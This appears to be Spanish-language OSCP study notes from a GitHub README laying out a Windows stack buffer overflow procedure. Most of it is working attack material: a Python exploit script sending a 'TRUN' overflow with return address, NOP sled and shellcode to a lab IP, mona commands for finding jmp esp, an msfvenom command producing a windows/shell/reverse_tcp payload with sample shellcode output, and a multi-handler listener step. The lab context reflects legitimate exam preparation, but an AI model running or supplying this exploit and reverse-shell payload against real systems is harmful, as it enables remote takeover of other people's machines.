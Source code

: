 # Buffer Overflow

Se indican los distintos pasos para completar el Buffer OverFlow en Windows

1) Encontrar el Offset para sobreescribir el EIP. __Importante:__ Recordar ajustar con divide y venceras si no se sobreescribe a la primera
<pre>
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000

/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q VALOR_EIP
</pre>

2) encontrar los badcharacters interpretables por el programa

<pre>
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

<b>
badchars= (
	"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
	"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
	"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
	"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
	"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
	"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
	"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
	"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
	"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
	"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
	"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
	"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
	"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
	"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
	"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
	"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )
</b>

buf =  ""
buf += "\xda\xdb\xbf\x4d\xc2\x72\x12\xd9\x74\x24\xf4\x58\x31"
buf += "\xc9\xb1\x56\x83\xc0\x04\x31\x78\x14\x03\x78\x59\x20"
buf += "\x87\xee\x89\x26\x68\x0f\x49\x47\xe0\xea\x78\x47\x96"
buf += "\x7f\x2a\x77\xdc\xd2\xc6\xfc\xb0\xc6\x5d\x70\x1d\xe8"
buf += "\xd6\x3f\x7b\xc7\xe7\x6c\xbf\x46\x6b\x6f\xec\xa8\x52"
buf += "\xa0\xe1\xa9\x93\xdd\x08\xfb\x4c\xa9\xbf\xec\xf9\xe7"
buf += "\x03\x86\xb1\xe6\x03\x7b\x01\x08\x25\x2a\x1a\x53\xe5"
buf += "\xcc\xcf\xef\xac\xd6\x0c\xd5\x67\x6c\xe6\xa1\x79\xa4"
buf += "\x37\x49\xd5\x89\xf8\xb8\x27\xcd\x3e\x23\x52\x27\x3d"
buf += "\xde\x65\xfc\x3c\x04\xe3\xe7\xe6\xcf\x53\xcc\x17\x03"
buf += "\x05\x87\x1b\xe8\x41\xcf\x3f\xef\x86\x7b\x3b\x64\x29"
buf += "\xac\xca\x3e\x0e\x68\x97\xe5\x2f\x29\x7d\x4b\x4f\x29"
buf += "\xde\x34\xf5\x21\xf2\x21\x84\x6b\x9a\x86\xa5\x93\x5a"
buf += "\x81\xbe\xe0\x68\x0e\x15\x6f\xc0\xc7\xb3\x68\x51\xcf"
buf += "\x43\xa6\xd9\x80\xbd\x47\x19\x88\x79\x13\x49\xa2\xa8"
buf += "\x1c\x02\x32\x54\xc9\xbe\x38\xc2\xf8\x35\x3d\x74\x95"
buf += "\x4b\x3d\x79\xde\xc2\xdb\x29\x70\x84\x73\x8a\x20\x64"
buf += "\x24\x62\x2b\x6b\x1b\x92\x54\xa6\x34\x39\xbb\x1e\x6c"
buf += "\xd6\x22\x3b\xe6\x47\xaa\x96\x82\x48\x20\x12\x72\x06"
buf += "\xc1\x57\x60\x7f\xb6\x97\x78\x80\x53\x97\x12\x84\xf5"
buf += "\xc0\x8a\x86\x20\x26\x15\x78\x07\x35\x52\x86\xd6\x0f"
buf += "\x28\xb1\x4c\x2f\x46\xbe\x80\xaf\x96\xe8\xca\xaf\xfe"
buf += "\x4c\xaf\xfc\x1b\x93\x7a\x91\xb7\x06\x85\xc3\x64\x80"
buf += "\xed\xe9\x53\xe6\xb1\x12\xb6\x74\xb5\xec\x44\x53\x1e"
buf += "\x84\xb6\xe3\x9e\x54\xdd\xe3\xce\x3c\x2a\xcb\xe1\x8c"
buf += "\xd3\xc6\xa9\x84\x5e\x87\x18\x35\x5e\x82\xfd\xeb\x5f"
buf += "\x21\x26\x1c\x25\x4a\xd9\xdd\xda\x42\xbe\xde\xda\x6a"
buf += "\xc0\xe3\x0c\x53\xb6\x22\x8d\xe0\xc9\x11\xb0\x41\x40"
buf += "\x59\xe6\x92\x41"


# \x71\xe8\x20\x77


sc = "A"*2006 + "\x71\xe8\x20\x77" + "\x90"*50 + buf

buffer = sc 
try:
	print "\nSending evil buffer..."
	s.connect(('10.11.27.79',9999))
	data = s.recv(1024)
	s.send('TRUN .'+ buffer +'\r\n')
	data = s.recv(1024)
	s.send('EXIT\r\n')
	data = s.recv(1024)
	s.close()
except:
	print "Could not connect to POP3!"
</pre>

3) Buscar la instruccion __jmp esp__ en el programa
<pre>
Click derecho. Seach command --> jmp esp
</pre>

4) Buscar la instruccion __jmp esp__ en los modulos del programa
<pre>
1) Encontrar los modulos del programa:  <b>!mona modules</b>. Fijarse en que no tengan DEP ni ASLR.

2) Buscar la instruccion <b>jmp esp</b> en el modulo identificado. Seleccionar el modulo --> Seleccionar <b>c</b>. Ejecutar <b>!mona find -s "\xFF\xE4" -m MODULO</b>
</pre>

5) Generar el payload para Windows
<pre>
<b>msfvenom -a x86 --platform Windows -p windows/shell/reverse_tcp -e x86/shikata_ga_nai -b '\x0a\x0d\x00' -f python </b>

<b>Ejemplo</b>
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai chosen with final size 368
Payload size: 368 bytes
Final size of python file: 1772 bytes
buf =  ""
buf += "\xbd\xbb\xbd\xba\x18\xda\xd8\xd9\x74\x24\xf4\x5f\x33"
buf += "\xc9\xb1\x56\x31\x6f\x13\x03\x6f\x13\x83\xc7\xbf\x5f"
buf += "\x4f\xe4\x57\x1d\xb0\x15\xa7\x42\x38\xf0\x96\x42\x5e"
buf += "\x70\x88\x72\x14\xd4\x24\xf8\x78\xcd\xbf\x8c\x54\xe2"
buf += "\x08\x3a\x83\xcd\x89\x17\xf7\x4c\x09\x6a\x24\xaf\x30"
buf += "\xa5\x39\xae\x75\xd8\xb0\xe2\x2e\x96\x67\x13\x5b\xe2"
buf += "\xbb\x98\x17\xe2\xbb\x7d\xef\x05\xed\xd3\x64\x5c\x2d"
buf += "\xd5\xa9\xd4\x64\xcd\xae\xd1\x3f\x66\x04\xad\xc1\xae"
buf += "\x55\x4e\x6d\x8f\x5a\xbd\x6f\xd7\x5c\x5e\x1a\x21\x9f"
buf += "\xe3\x1d\xf6\xe2\x3f\xab\xed\x44\xcb\x0b\xca\x75\x18"
buf += "\xcd\x99\x79\xd5\x99\xc6\x9d\xe8\x4e\x7d\x99\x61\x71"
buf += "\x52\x28\x31\x56\x76\x71\xe1\xf7\x2f\xdf\x44\x07\x2f"
buf += "\x80\x39\xad\x3b\x2c\x2d\xdc\x61\x38\x82\xed\x99\xb8"
buf += "\x8c\x66\xe9\x8a\x13\xdd\x65\xa6\xdc\xfb\x72\xbf\xcb"
buf += "\xfb\xad\x07\x9b\x05\x4e\x77\xb5\xc1\x1a\x27\xad\xe0"
buf += "\x22\xac\x2d\x0c\xf7\x58\x24\x9a\x38\x34\xc7\xd5\xd1"
buf += "\x46\x38\xfb\x7d\xcf\xde\xab\x2d\x9f\x4e\x0c\x9e\x5f"
buf += "\x3f\xe4\xf4\x50\x60\x14\xf7\xbb\x09\xbf\x18\x15\x61"
buf += "\x28\x80\x3c\xf9\xc9\x4d\xeb\x87\xca\xc6\x19\x77\x84"
buf += "\x2e\x68\x6b\xf1\x48\x92\x73\x02\xfd\x92\x19\x06\x57"
buf += "\xc5\xb5\x04\x8e\x21\x1a\xf6\xe5\x32\x5d\x08\x78\x02"
buf += "\x15\x3f\xee\x2a\x41\x40\xfe\xaa\x91\x16\x94\xaa\xf9"
buf += "\xce\xcc\xf9\x1c\x11\xd9\x6e\x8d\x84\xe2\xc6\x61\x0e"
buf += "\x8b\xe4\x5c\x78\x14\x17\x8b\xfa\x53\xe7\x49\xd5\xfb"
buf += "\x8f\xb1\x65\xfc\x4f\xd8\x65\xac\x27\x17\x49\x43\x87"
buf += "\xd8\x40\x0c\x8f\x53\x05\xfe\x2e\x63\x0c\x5e\xee\x64"
buf += "\xa3\x7b\x01\x1e\xcc\x7c\xe2\xdf\xc4\x18\xe3\xdf\xe8"
buf += "\x1e\xd8\x09\xd1\x54\x1f\x8a\x66\x66\x2a\xaf\xcf\xed"
buf += "\x54\xe3\x10\x24"
</pre>

6) Activar el Multihandler 
<pre>
<b>$OSCP/explotacion/multi-handler/generator.sh windows/shell/reverse_tcp $LHOST $LPORT</b>
</pre>
